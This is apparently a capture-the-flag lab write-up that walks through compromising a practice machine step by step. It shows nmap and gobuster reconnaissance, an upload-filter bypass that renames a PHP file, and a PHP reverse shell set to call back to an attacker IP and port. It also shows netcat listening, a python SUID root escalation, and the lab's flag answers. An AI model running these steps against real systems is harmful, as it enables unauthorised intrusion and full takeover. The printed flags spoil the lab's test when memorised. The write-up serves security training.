 # Initial 
'''bash
start machine

nmap -sC -sV "machines IP" -oN nmap/initial.txt
'''

# Nmap Output

'''bash
# Nmap 7.94 scan initiated Sun Jan 21 14:31:42 2024 as: nmap -sC -sV -oN nmap/initial.txt 10.10.25.147
Nmap scan report for 10.10.25.147
Host is up (0.32s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 21 14:33:15 2024 -- 1 IP address (1 host up) scanned in 93.14 seconds

'''

# Gobuster

Using gobuster for scanning directori web

'''bash
gobuster dir -u http://IPMACHINE -w "wordlist-path"

found /panel dan /uploads

'''

# Reverse shell 

Reverse shell I using from wordlist

'''bash
/usr/share/webshells/php/php-reverse-shell.php

'''

and I edit some parameter like IP local attacker dan port

'''bash
et_time_limit (0);
$VERSION = "1.0";
$ip = '10.6.23.159';  // CHANGE THIS
$port = 9999;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
'''
and change format file from .php to .phtml or .php3

Using NC for listening port dan reverse shell

'''bash
nc -lnvp 9999

'''

After upload file success, go to /uploads dan click the file 

and go back to the terminal and see nc success listening using python for stabilise shell

'''python
python -c 'import pty;pty.spawn{"/bin/bash")'

find / -type f -name user.txt

'''

'''bash
the flag
THM{y0u_g0t_a_sh3ll}
'''

# Privilage Escalation

'''bash
find / -type f -user root -perm -4000 2>/dev/null
'''

find the SUID binaries, and /usr/bin/python is weird, and i go https://gtfobins.github.io/ to search privelage escalation for python SUID. 

'''python
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
'''

And wala, your shell become root, and the last think search the root flag

'''bash
/root/
cat root.txt

THM{pr1v1l3g3_3sc4l4t10n}
'''
